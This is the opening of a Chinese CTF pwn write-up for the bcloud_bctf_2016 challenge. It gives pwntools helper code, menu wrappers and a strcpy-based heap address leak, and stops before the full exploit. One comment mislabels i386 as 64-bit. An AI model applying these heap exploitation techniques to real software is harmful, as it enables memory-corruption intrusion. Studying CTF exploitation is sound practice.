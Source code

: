 #### 先把前面的一些东西写好
	from pwn import *
	from LibcSearcher import *
	context(endian='little',os='linux',arch='i386',log_level='debug') #小端序，linux系统，64位架构,debug
	#定义gdb调试函数
	def dbg():
	        gdb.attach(sh)
	        pause()
	#命令简写化
	s       = lambda data               :sh.send(data)
	sa      = lambda delim,data         :sh.sendafter(delim, data)
	sl      = lambda data               :sh.sendline(data)
	sla     = lambda delim,data         :sh.sendlineafter(delim, data)
	r       = lambda num=4096           :sh.recv(num)
	ru      = lambda delims, drop=True  :sh.recvuntil(delims, drop)
	itr     = lambda                    :sh.interactive()
	uu32    = lambda data               :u32(data.ljust(4,'\0'))
	uu64    = lambda data               :u64(data.ljust(8,'\0'))
	leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
	lg      = lambda address,data       :log.success('%s: '%(address)+hex(data))
	sh = process('./bcloud_bctf_2016')
	#sh = remote('node4.buuoj.cn',26937)
	elf = ELF('./bcloud_bctf_2016')
	def add(size,content):
	   sla('>>','1')
	   sla('note content:',str(size))
	   sa('content:',content)
	 
	def edit(index,content):
	   sla('>>','3')
	   sla('id:',str(index))
	   sa('content:',content)
	 
	def delete(index):
	   sla('>>','4')
	   sla('id:',str(index))
### 分析：
程序没有show函数，无法泄露libc基地址，观察程序发现最开时让我们输入name等信息处存在漏洞

![在这里插入图片描述](https://img-blog.csdnimg.cn/310dfbd7c49e466ebe930d558f79dc43.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/6ece0eda6a904752a89a70247f34ad42.png)

strcpy复制结束的标志是’\x00’，chunk的mem大小只有64字节，如果输入64字节，show函数会把堆地址泄露出来

	sa('name:','a'*64)
	ru('a'*64)
	heap_addr = u32(r(4)) - 0x8
	lg('heap_addr',heap_addr)
	dbg()
	
![在这里插入图片描述](https://img-blog.csdnimg.cn/500d6ee32f0344239464a85fc0e0d7b0.png)
